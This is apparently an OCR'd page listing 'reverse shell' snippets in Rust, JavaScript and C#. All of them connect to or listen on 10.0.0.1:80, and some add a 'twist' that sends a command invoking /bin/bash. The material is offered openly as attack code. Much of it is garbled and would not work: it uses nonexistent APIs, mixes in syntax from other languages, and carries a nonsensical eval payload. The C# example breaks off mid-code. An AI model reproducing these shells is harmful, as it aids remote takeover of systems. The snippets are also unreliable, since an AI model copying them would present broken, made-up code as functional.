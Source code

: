 2. Reverse shell with a twist:
```rust
use tokio::net::{TcpListener, TcpStream};
use tokio::util::yield_now;

#[tokio::main]
async fn main() {
    let listener = TcpListener::bind("10.0.0.1:80").await.unwrap();
    for stream in listener.incoming() {
        if let Some(stream) = stream {
            println!("New connection from {}", stream.peer_addr().unwrap());
            let mut stream = stream;
            loop {
                let mut buf = [0; 1024];
                if stream.read(&mut buf).await.unwrap() == 0 {
                    break;
                }
                println!("{}", String::from_utf8_lossy(&buf));
                stream.write(b"eval yoda 'execute('file: /bin/bash')' ");
            }
        }
    }
}
```

**JavaScript (using the `net` module)**

1. Simple reverse shell:
```javascript
const net = require('net');

const socket = new net.Socket();
socket.connect(80, '10.0.0.1');
socket.on('data', (data) => {
  console.log(data.toString());
});
```

2. Reverse shell with a twist:
```javascript
const net = require('net');

const socket = new net.Socket();
socket.connect(80, '10.0.0.1');
socket.on('data', (data) => {
  console.log(data.toString());
  socket.write(b"eval yoda 'execute('file: /bin/bash')' ");
});
```

**C#**

1. Simple reverse shell:
```csharp
using System;
using System.Net.Sockets;

class ReverseShell {
    public static void Main(string[] args) {
        TcpListener listener = new TcpListener(IPAddress.Any, 80);
        listener.Start();
        while (true) {
            TcpClient client = listener.AcceptTcpClient();
            Console.WriteLine("New connection from {}", client.Client.RemoteEndPoint);
            TcpStream stream = client.GetStream();
            byte[] buffer = new byte[1024];
            stream.Read(buffer, 0, 1024);
```